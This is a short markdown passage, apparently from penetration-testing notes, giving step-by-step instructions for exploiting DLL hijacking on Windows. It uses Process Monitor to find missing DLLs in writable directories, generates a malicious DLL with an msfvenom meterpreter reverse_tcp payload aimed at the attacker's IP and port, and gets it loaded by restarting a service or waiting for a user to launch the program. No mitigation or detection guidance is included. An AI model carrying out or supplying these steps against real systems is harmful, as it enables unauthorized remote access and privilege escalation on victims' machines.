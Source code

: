 
## DLL Hijacking
**Identifying and Exploiting DLL Hijacking with Process Monitor**

1. **Set Procmon Filters:**
   - Launch **Process Monitor** and create a filter for the target executable (e.g., `RegSrvc.exe`).
   - Add a filter for the **Result** column to capture entries with "NAME NOT FOUND," highlighting DLLs the system couldn’t find.

2. **Find Writable Directories:**
   - Look for instances where the executable is trying to load a DLL from directories where you have write permissions.

3. **Inject Malicious DLL:**
   - Create a malicious DLL payload and place it in the identified writable directory.
   `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f dll > malicious.dll
`
1. **Trigger the DLL Load:**
   - Restart the service, relaunch the application, or wait for a system reboot if the executable starts with the system.
   - You can also wait for the user to launch the affected application.
   - 